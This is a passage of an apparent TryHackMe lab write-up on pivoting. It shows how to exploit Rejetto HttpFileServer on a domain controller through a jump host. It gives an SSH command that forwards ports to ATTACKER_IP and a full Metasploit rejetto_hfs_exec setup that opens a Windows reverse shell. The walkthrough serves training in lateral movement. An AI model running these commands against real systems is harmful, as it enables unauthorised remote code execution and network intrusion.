 	- 1 : Triggers the exploit
	- 2 : Request the payload via HTTP
	- 3 : Send Reverse shell to attacker since it executes the requested payload.


- **Rejetto `H`ttp`F`ile`S`erver** will be listening on port 80 on `THMDC`, so we need to tunnel that port back to our attacker's machine through `THMJMP2` using `remote port forwarding`.
- Since the `Attackbox` has port 80 occupied with another service, we will need to link `port 80` on **THMDC** with some port not currently in use by the `Attackbox`.
- Let's use port `8888`. When running `ssh` in **THMJMP2** to forward this port, we would have to add `-R 8888:thmdc.za.tryhackme.com:80` to our command.


- For `SRVPORT` and `LPORT`, let's choose two random ports at will.
- ## For demonstrative purposes, we'll set `SRVPORT=6666` and `LPORT=7878`, but be sure to use different ports as the lab is shared with other students, so if two of you chose the same pots, when trying to forward them, you'll get an error stating that such port is already in use on **THMJMP2**.


- To forward such ports from our attacker machine to `THMJMP2`, we will use local port forwarding by adding `-L *:6666:127.0.0.1:6666` and `-L *:7878:127.0.0.1:7878` to our SSH command.
- This will bind both ports on `THMJMP2` and tunnel any connection back to our attacker machine.

<u>Full Command</u>:

```powershell
C:\> ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```

**Note:** If you are using the AttackBox and have joined other network rooms before, be sure to select the IP address assigned to the tunnel interface facing the `lateralmovementandpivoting` network as your ATTACKER_IP, or else your reverse shells/connections won't work properly. For your convenience, the interface attached to this network is called `lateralmovement`, so you should be able to get the right IP address by running `ip add show lateralmovement`:

![](/assets/img/Pasted image 20230209181131.png)

- Once all port forwards are in place, we can start `Metasploit` and configure the exploit so that the required ports match the ones we have forwarded through `THMJMP2`:

```bash
user@AttackBox$ msfconsole
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7878 
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666

msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```
